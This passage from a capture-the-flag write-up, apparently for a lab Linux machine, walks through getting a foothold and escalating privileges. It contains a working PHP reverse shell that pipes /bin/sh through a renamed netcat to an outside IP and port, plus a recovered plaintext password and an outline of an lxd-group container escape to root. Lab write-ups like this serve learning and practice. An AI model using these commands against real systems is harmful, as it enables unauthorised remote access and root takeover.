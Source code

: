 So let's just copy a `nc` to `/dev/shm` to avoid being killed:

```bash
$ cp /bin/nc /dev/shm/gibs
$ chmod 755 /dev/shm/gibs
```

Then grab a php reverse shell from pentestmonkey, run it with our "customized" nc.

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/dev/shm/gibs 10.10.16.37 12334 >/tmp/f");?>
```

Successfully got the shell we need.

## Interactive shell

Download the `recov.wav` and `alarmclocks/rick.wav`. Import both of them into `audacity`, and invert one of them. You will hear the normal user password. Don't forget to set repeatedly play the audio.

The password is: `18547936..*`

Just access it via SSH.

# Privilege Escalation

Of course, LinEnum first. 

Due to the normal user belongs to group lxd, and also the lxc is initialized before. 

And there's an ELF with `setuid` permission in `~/app`.

So we have two methods to escalate.

## LXC method

This is the easier one.

We notice xalvas is member of the lxd group. Like with most container technologies (e.g.,), you can run processes with root privileges via LXD. Thus, being member of groups like lxd are more or less equivalent to being root. [Here](https://reboare.github.io/lxd/lxd-escape.html) is a blog post with some details on how to exploit this group membership.

The privesc requires to run a container with elevated privileges and mount the host filesystem inside. Running containers requires an image on the machine. Since we do not have an internet connection on the machine, we have to copy over an image. The outline is as follows:

= Build an image locally and copy image to remote host
= Import image into LXD, create a container and mount host filesystem
= Run a shell inside the container and get flag

### Prepare image

Alpine is a popular Linux distribution to base container images on since it is so small. Unlike other operating systems, which may result in a few hundred megs, Alpine images are often rather small. In this [repository](https://github.com/saghul/lxd-alpine-builder) you can find a simple script to build a container. Clone it, cd into it, then run `./build-alpine -a i686` and a tar file `alpine-v3.7-i686-20180121_1729.tar.gz` will appear.

